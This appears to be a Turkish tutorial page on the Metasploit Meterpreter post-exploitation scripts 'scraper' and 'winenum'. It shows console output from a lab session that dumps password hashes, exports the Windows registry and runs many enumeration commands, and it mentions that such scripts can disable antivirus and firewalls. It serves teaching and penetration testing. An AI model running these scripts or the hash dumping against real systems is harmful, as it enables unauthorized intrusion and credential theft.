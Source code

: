 

## scraper



`scraper` scripti, `remotewinenum` ile elde edilen bilgiden daha fazlasını elde etmeye yarar. Elde edilen bilgilerin içinde registry kayıtları da bulunur.


```bash
meterpreter **&gt;** run scraper **[*********]** New session on 10.211.55.128:4444...
 **[*********]** Gathering basic system information...
 **[*********]** Dumping password hashes...
 **[*********]** Obtaining the entire registry...
 **[*********]** Exporting HKCU
 **[*********]** Downloading HKCU **(**C:\WINDOWS\TEMP\LQTEhIqo.reg**)**
 **[*********]** Cleaning HKCU
 **[*********]** Exporting HKLM
 **[*********]** Downloading HKLM **(**C:\WINDOWS\TEMP\GHMUdVWt.reg**)**
```



Yukarıdaki örneklerde görüldüğü gibi, Meterpreter script kodlarıyla oldukça detaylı bilgi toplanabilmektedir. Bunun yanında Antivirüs veya Firewall iptal etmede de kullanılmaktadır.



## winenum



`winenum` scripti, sistem hakkında en detaylı bilgiyi elde etmede kullanılabilir. Token, hash bilgileri ve diğer tüm bilgileri `winenum` scripti ile görebilirsiniz.


```bash
meterpreter **&gt;** run winenum  **[*********]** Running Windows Local Enumerion Meterpreter Script
 **[*********]** New session on 10.211.55.128:4444...
 **[*********]** Saving report to /root/.msf4/logs/winenum/10.211.55.128_20090711.0514-99271/10.211.55.128_20090711.0514-99271.txt
 **[*********]** Checking **if **SSHACKTHISBOX-0 is a Virtual Machine ........
 **[*********]**     This is a VMware Workstation/Fusion Virtual Machine 
 **[*********]** Running Command List ...
 **[*********]**     running command cmd.exe /c set
 **[*********]**     running command arp -a
 **[*********]**     running command ipconfig /all
 **[*********]**     running command ipconfig /displaydns
 **[*********]**     running command route print
 **[*********]**     running command net view
 **[*********]**     running command netstat -nao
 **[*********]**     running command netstat -vb
 **[*********]**     running command netstat -ns
 **[*********]**     running command net accounts
 **[*********]**     running command net accounts /domain
 **[*********]**     running command net session
 **[*********]**     running command net share
 **[*********]**     running command net group
 **[*********]**     running command net user
 **[*********]**     running command net localgroup
 **[*********]**     running command net localgroup administrators
 **[*********]**     running command net group administrators
 **[*********]**     running command net view /domain
 **[*********]**     running command netsh firewall show config
 **[*********]**     running command tasklist /svc
 **[*********]**     running command tasklist /m
 **[*********]**     running command gpresult /SCOPE COMPUTER /Z
 **[*********]**     running command gpresult /SCOPE USER /Z
```